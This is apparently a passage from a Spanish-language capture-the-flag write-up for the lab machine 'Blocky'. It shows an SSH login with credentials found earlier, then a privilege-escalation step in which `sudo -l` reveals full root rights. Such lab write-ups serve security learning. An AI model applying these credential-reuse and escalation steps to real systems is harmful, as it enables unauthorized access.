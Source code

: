 ![](/assets/img/Blocky/image_3.png)

Nos conectamos por `SSH` usando las credenciales encontradas

```
# ssh notch@10.129.144.91
notch@10.129.144.91's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ 
```

## Privilege Escalation

Estamos en el grupo `sudo` así que podemos `ejecutar` cualquier `comando` como `root`

```
# notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
